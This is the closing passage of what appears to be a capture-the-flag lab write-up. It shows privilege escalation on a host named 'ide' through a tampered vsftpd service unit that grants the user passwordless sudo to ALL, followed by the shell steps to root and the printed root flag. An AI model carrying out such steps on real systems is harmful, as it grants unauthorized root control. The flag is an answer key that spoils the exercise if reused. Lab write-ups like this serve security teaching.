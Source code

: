 After I was done editing, I ran the command with sudo, but I got an error:

~~~
drac@ide:/lib/systemd/system$ sudo /usr/sbin/service vsftpd restart
Warning: The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.
~~~

We can just run the `systemctl daemon-reload` which reloads units and then run the command again:

~~~
drac@ide:/lib/systemd/system$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
drac@ide:/lib/systemd/system$ sudo /usr/sbin/service vsftpd restart
~~~

Now let's check if our exploit worked by running `sudo -l`:

~~~
drac@ide:/lib/systemd/system$ sudo -l
User drac may run the following commands on ide:
    (root) NOPASSWD: ALL
~~~

It worked! We just need to run `sudo su` to switch to root:

~~~
drac@ide:/lib/systemd/system$ sudo su
root@ide:/lib/systemd/system# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root Flag

Now that we are root, we can head to `/root` and read the root flag:

~~~
root@ide:/lib/systemd/system# cd /root
root@ide:~# ls
root.txt
root@ide:~# cat root.txt 
ce258cb16f47f1c66f0b0b77f4e0fb8d
~~~

Root flag: `ce258cb16f47f1c66f0b0b77f4e0fb8d`

# D0N3! ; )

Thanks to the creator(s) of this room!

Hope you had fun and learned something.

Have a g00d 0ne! : )
